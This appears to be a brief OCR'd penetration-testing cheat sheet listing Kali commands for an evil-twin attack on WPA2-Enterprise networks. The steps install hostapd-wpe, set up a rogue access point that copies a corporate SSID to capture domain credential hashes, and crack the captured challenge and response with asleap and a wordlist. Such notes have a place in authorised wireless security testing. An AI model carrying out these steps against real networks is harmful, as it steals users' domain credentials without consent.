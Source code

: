 - WPA2-Enterprise (802.1x)
  - Update Kali
    - apt-get udate
  - Upgrade installed application
    - apt-get upgrade
  - Install Hostapd-WPE
    - apt-get install hostapd-wpe
  - iwconfig
  - airmon-ng check kill
  - nano /etc/hostapd-wpe/hostapd-wpe.conf
  
  - Change SSID name in the config file which matches the corporate SSID
  
  - Once user tries to connect to fake AP it send the domain hash to the attaker when trying to connect to it.
  
  - asleap -C <Challenge> -R <Response> -W rockyou.txt
  
  
